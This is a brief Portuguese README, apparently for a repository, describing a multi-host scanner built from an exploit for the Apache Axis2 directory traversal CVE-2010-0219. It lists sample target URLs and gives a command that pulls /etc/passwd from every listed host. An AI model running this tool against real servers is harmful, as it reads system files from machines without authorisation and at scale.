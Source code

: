 # axis2_multi_xsd_scanner CVE-2010-0219
versão avançada do exploit para a vulnerabilidade de Directory Traversal em Apache Axis2 1.4.1 (xsd) convertida em um scanner multi-host


# Uso
python3 axis2_multi_xsd_scanner.py --help

# Criar arquivo com alvos: 
http://192.168.1.10:8080/axis2/services/Version
http://192.168.1.15:8080/axis2/services/Version
http://example.com/axis2/services/Version

# Exemplo de Scaner:
python3 axis2_multi_xsd_scanner.py -l targets.txt -f /etc/passwd -o output
